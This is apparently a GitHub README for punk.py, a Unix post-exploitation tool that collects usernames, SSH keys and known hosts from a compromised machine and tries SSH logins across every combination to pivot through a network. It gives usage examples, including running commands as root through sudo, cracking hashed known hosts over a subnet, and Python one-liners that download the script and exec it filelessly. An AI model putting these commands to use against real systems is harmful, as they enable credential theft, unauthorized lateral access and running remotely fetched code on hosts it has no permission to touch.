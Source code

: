 # punk.py

*unix SSH post-exploitation 1337 tool*



## how it works

punk.py is a post-exploitation tool meant to help network pivoting from a compromised unix box.
It collect usernames, ssh keys and known hosts from a unix system, then it tries to connect via ssh to all the combinations found.
punk.py is wrote in order to work on both standard python2 and python3 interpreters.



## Screenshot

![screenshot from 2018-12-11 14-01-15](https://user-images.githubusercontent.com/635790/49803344-ce4a0000-fd4f-11e8-86f9-b49d7e31989a.png)



## examples

standard execution:

```
 ~$ ./punk.py
```

skip passwd checks and use a custom home path:

```
 ~$ ./punk.py --no-passwd --home /home/ldapusers/
```

execute commands with sudo:

```
 ~$ ./punk.py --run "sudo sh -c 'echo iamROOT>/root/hacked.txt'"
```

cracking ssh hashed known hosts:
```
 ~$ ./punk.py --crack 192.168.0.0/24
```

python2 one-liner fileless ( with --no-passwd parameter ):
```
 ~$ python -c "import urllib2;exec(urllib2.urlopen('https://raw.githubusercontent.com/r3vn/punk.py/master/punk.py').read())" --no-passwd
```

python3 one-liner fileless:
```
 ~$ python3 -c "import requests;exec(requests.get('https://raw.githubusercontent.com/r3vn/punk.py/master/punk.py').text)"
```



## TODO

 - improve private keys hunting including dsa keys
 - Recursion
 - SSH keys with password bruteforce
